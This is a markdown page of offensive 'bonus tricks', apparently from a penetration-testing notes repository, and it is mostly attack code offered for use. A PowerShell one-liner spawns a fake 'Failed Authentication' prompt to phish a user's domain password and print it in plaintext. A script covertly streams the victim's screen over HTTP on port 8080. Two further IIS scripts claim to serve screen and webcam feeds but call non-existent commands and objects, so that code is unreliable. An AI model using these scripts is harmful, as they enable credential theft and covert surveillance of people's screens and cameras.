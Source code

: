 # Bonus Tricks

### Keylogger prompt

This is a neat trick that can be used during desperate times. It will spawn a UI prompt that will ask for the user's domain credentials using environment variables to pull the username, then display the password in plaintext to the attacker console. 

From a CMD.exe prompt:

```powershell "$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+[Environment]::UserName,[Environment]::UserDomainName); $cred.getnetworkcredential().password"
```

- from Sektor7 Privilege Escalation course

### Serving Display on HTTP

This script captures the content of the primary screen, converts it to a JPEG image, and serves it over an HTTP web server on port 8080. The script will continuously update the image and serve it as long as the HTTP listener is running.

```
Add-Type -AssemblyName System.Windows.Forms
Add-Type -AssemblyName System.Drawing

$listener = New-Object System.Net.HttpListener
$listener.Prefixes.Add("http://0.0.0.0:8080/")
$listener.Start()

Write-Host "Streaming server is running on http://127.0.0.1:8080/"

while ($listener.IsListening) {
    $context = $listener.GetContext()
    $response = $context.Response

    $stream = $response.OutputStream
    $imageStream = New-Object System.IO.MemoryStream

    $bitmap = New-Object System.Drawing.Bitmap([System.Windows.Forms.Screen]::PrimaryScreen.Bounds.Width, [System.Windows.Forms.Screen]::PrimaryScreen.Bounds.Height)
    $graphics = [System.Drawing.Graphics]::FromImage($bitmap)
    $graphics.CopyFromScreen([System.Windows.Forms.Screen]::PrimaryScreen.Bounds.Location, [System.Drawing.Point]::Empty, [System.Windows.Forms.Screen]::PrimaryScreen.Bounds.Size)

    $bitmap.Save($imageStream, [System.Drawing.Imaging.ImageFormat]::Jpeg)

    $response.ContentType = "image/jpeg"
    $response.ContentLength64 = $imageStream.Length

    $imageStream.WriteTo($stream)

    $imageStream.Dispose()
    $stream.Dispose()
}

$listener.Stop()

```

`Install-Module -Name WebAdministration`

```
# Import the Windows PowerShell Web Server module
Import-Module WebAdministration

# Define the path to your screen capture files
$screenCapturePath = "C:\Path\To\Screen\Capture"

# Start the screen capture
$job = Start-Process powershell.exe "-command & { Get-ChildItem -Path C:\Path\To\Screen\Capture -Filter '*.jpg' -Recurse | Remove-Item }" -PassThru
$job2 = Start-ScreenCapture -Path $screenCapturePath

# Set up the web server to serve the screen capture
New-WebVirtualDirectory -Site 'Default Web Site' -Name 'ScreenCapture' -PhysicalPath $screenCapturePath
Set-WebConfigurationProperty -Filter "/system.webServer/directoryBrowse" -Name "enabled" -Value "True"
Set-WebConfigurationProperty -Filter "/system.webServer/directoryBrowse" -Name "showFlags" -Value "Date, Time, Size, Extension"

# Set the web server to listen on port 8080
Set-ItemProperty -Path "IIS:\Sites\Default Web Site" -Name bindings -Value @{protocol="http";bindingInformation="*:8080:"}

```


## Serving Camera Feed on HTTP

This script does the following:

Imports the Windows PowerShell Web Server module.
Defines the path to your camera feed.
Starts the camera feed using the Windows Media Foundation APIs.
Sets up a virtual directory in the default web site that serves the camera feed.
Enables directory browsing and sets the directory browse flags.
Sets the web server to listen on port 8080.

```
# Import the Windows PowerShell Web Server module
Import-Module WebAdministration

# Define the path to your camera feed
$cameraFeedPath = "C:\Path\To\Camera\Feed"

# Start the camera feed
$mediaSource = New-Object -ComObject 'MFMediaSource'
$mediaSource.OpenDevice("Video", "Integrated Webcam", $null, [System.Guid]::Empty)

# Set up the web server to serve the camera feed
New-WebVirtualDirectory -Site 'Default Web Site' -Name 'CameraFeed' -PhysicalPath $cameraFeedPath
Set-WebConfigurationProperty -Filter "/system.webServer/directoryBrowse" -Name "enabled" -Value "True"
Set-WebConfigurationProperty -Filter "/system.webServer/directoryBrowse" -Name "showFlags" -Value "Date, Time, Size, Extension"

# Set the web server to listen on port 8080
Set-ItemProperty -Path "IIS:\Sites\Default Web Site" -Name bindings -Value @{protocol="http";bindingInformation="*:8080:"}

```
